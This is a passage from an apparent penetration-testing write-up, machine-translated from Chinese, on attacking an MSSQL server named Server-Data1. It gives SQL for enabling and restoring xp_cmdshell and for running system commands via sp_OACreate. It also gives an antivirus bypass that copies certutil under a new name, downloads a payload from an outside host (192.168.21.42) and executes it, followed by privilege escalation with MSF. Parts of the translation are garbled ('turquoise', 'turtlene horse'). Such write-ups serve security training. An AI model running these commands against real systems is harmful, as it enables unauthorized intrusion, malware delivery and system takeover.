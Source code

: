 Try to use `xp_cmdshell` to attack `Server-Data1`, refer to the article [Summary of the execution of Mssql database commands] (https://xz.aliyun.com/t/7534).

````sql
# determine the status of xp_cmdshell, and the existence returns 1
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'

# Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

# Use xp_cmdshell to execute commands
exec master..xp_cmdshell 'whoami'

# Recover the deleted xp_cmdshell, you can use xplog70.dll to restore the deleted xp_cmdshell
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
```

The target machine has turquoise, so it is impossible to download the horse directly. Here we refer to the attack method in the article [record the attack method in the article [record once using mssql to go online] (https://xz.aliyun.com/t/9265), using `sp_o
create` is here to go online.

![](./images/13.png)

To add to the method of using the COM component in the execution of the `Mssql` database command, use the `COM` component `SP_OACREATE` in `Sql Server` to execute system commands, and use the prerequisites:
- `Mssql` database service has not been downgraded
- The database password has been obtained

````sql
# determine the status of SP_OACREATE, and the existence returns 1
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

# Enable SP_OACREATE
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE;

# Use SP_OACREATE to execute the command, there is no echo in this method
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\windows\system32\cmd.exe /c whoami >C:\\1.txt'
```

Bypass the idea (no killing the turtlene horse):

````sql
# Copy certutil.exe to the C:\Windows\Temp\ directory and rename it
declare @o int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\certutil.exe' ,'C:\Windows\Temp\h3.exe';

# Download Mazi remotely
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\Temp\h3.exe -urlcache -split -f "http://192.168.21.42:9999/222.exe" C:\Windows\Temp\222.exe'

# Use forfiles to run horses
declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'forfiles /c C:\Windows\Temp\222.exe';
```

After launching `MSF`, use `getsystem` to increase the authority to `NT AUTHORITY\SYSTEM`.

````